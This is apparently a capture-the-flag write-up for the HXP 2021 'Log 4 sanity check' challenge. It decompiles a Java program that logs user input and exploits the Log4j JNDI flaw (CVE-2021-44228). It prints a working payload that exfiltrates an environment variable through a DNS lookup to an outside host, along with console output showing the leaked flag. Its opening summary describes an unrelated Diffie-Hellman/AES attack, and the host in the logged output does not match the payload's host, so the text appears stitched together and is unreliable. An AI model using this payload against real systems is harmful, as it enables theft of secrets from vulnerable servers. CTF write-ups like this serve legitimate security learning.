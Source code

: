 ```yaml
---
title: "HXP 2021 - Log 4 Sanity Check (Misc)"
header:
  overlay_image: /assets/images/hxp-2021/header.png
  overlay_filter: 0.5
  caption: "Photo credit: HXP CTF Organisers"

tags:
  - hxp
  - writeup
  - misc
  - log4j
  - java
---
```


Summary: Choosing the value of the prime modulus - 1 as the base in a pseudo Diffie Hellman key
exchange scheme allows setting a shared value to 1. When this value is used as an exponent for a
validation value and the construction of an AES key, it allows us to bypass verification and reduce
the search space of AES decryption key.

## Challenge Prompt

```
Log 4 sanity check
by 0xbb
misc baby
Difficulty estimate: easy - easy

Points: round(1000 · min(1, 10 / (9 + [87 solves]))) = 104 points

Description:
ALARM ALARM

Download:
Log 4 sanity check-9afb8a24feb86db1.tar.xz (1.7 MiB)

Connection (mirrors):
nc 65.108.176.77 1337
```

Attachment: [challenge file]({{ site.url }}{{ site.baseurl }}/assets/files/hxp-2021/Log 4 sanity check-9afb8a24feb86db1.tar.xz)

## Solution

This is a sanity check challenge and so is very easy. A `Vuln.class` is provided in the tar file.
This is decompiled with Procyon:

```java
import org.apache.logging.log4j.Logger;
import java.util.Scanner;
import org.apache.logging.log4j.LogManager;

//
// Decompiled by Procyon v0.5.36
//

public class Vuln
{
    public static void main(final String[] array) {
        try {
            final Logger logger = LogManager.getLogger((Class)Vuln.class);
            System.out.println("What is your favourite CTF?");
            final String next = new Scanner(System.in).next();
            if (next.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }
            if (next.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            }
            else {
                System.out.println(":(");
                logger.error("Wrong answer: {}", (Object)next);
            }
        }
        catch (Exception x) {
            System.err.println(x);
        }
    }
}
```

This is trivially vulnerable to CVE-2021-44228 (not going to call it Log4Shell, that is a stupid
name).

It can be seen from the Dockerfile that the `FLAG` environment variable contains the flag.

```dockerfile
CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
```

We can leak this with the following string:

```
${jndi:dns://pwn.nandynarwhals.org/leak=${env:FLAG:-lol}}
```

Using this payload leaks the flag in the error messages because the domain name ends up being too
long.

```console
nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:dns://pwn.nandynarwhals.org/leak=${env:FLAG:-lol}}
:(
2021-12-19 21:15:06,116 main WARN Error looking up JNDI resource [dns://border.spro.ink/leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.InvalidNameException: Label exceeds 63 octets: leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}; remaining name 'leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}'
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.verifyLabel(DnsName.java:487)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.add(DnsName.java:306)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.parse(DnsName.java:446)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.<init>(DnsName.java:135)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.fullyQualify(DnsContext.java:588)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:288)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
    ...
```

**Flag:** `hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}`
